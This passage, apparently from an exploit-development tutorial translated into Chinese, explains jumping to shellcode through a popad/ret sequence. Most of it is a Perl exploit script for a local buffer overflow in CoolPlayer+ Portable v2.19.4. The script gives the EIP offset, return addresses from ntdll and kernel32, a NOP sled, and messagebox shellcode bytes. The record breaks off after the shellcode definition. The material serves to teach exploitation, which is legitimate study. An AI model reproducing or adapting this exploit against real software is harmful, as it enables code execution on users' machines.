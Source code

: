 如您所见，寄存器从EDI开始自下而上（并放弃ESP）。现在，如果我们替换INT指令ESP $用JMP ESP或致电ESP指令的地址，我们可以继续下面的shellcode的执行。由于我们在ESP中分配的空间有限，我再次选择了一个较小的shellcode示例，这次是一个简单的消息框来证明成功的利用。

    #!/usr/bin/perl
    ###########################################################################################
    # Exploit Title: CoolPlayer+ Portable v2.19.4 - Local Buffer Overflow Shellcode Jump Demo
    # Date: 12-24-2013
    # Author: Mike Czumak (T_v3rn1x) -- @SecuritySift
    # Vulnerable Software: CoolPlayer+ Portable v2.19.4
    # Software Link: http://portableapps.com/apps/music_video/coolplayerp_portable
    # Tested On: Windows XP SP3
    # Based on original POC exploit: http://www.exploit-db.com/exploits/4839/
    # Details: Demo of jumping to shellcode via pop/ret sequence to stack address
    ###########################################################################################
     
    my $buffsize = 10000; # set consistent buffer size
    my $junk = "\x41" x 260; # offset to EIP
    my $eip = pack('V',0x7C93121B); # EIP overwrite w/ popad ret (ntdll)
    my $regs = "\x42" x 32; # account for registers populated by popad
    my $esp = pack('V',0x7C86467B); # jmp esp kernel32.dll
    my $nops = "\x90" x 20;
     
    # modified messagebox shellcode from Giuseppe D'Amore
    # http://www.exploit-db.com/exploits/28996/
    my $shell = "\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42" .
    "\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03" .
    "\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b" .
    "\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e" .
    "\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c" .
    "\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x4f\x46" .
    "\x21\x01\x68\x61\x64\x20\x42\x68\x20\x50\x6f\x70\x89\xe1\xfe" .
    "\x49\x0b\x31\xc0\x51\x50\xff\xd7";
     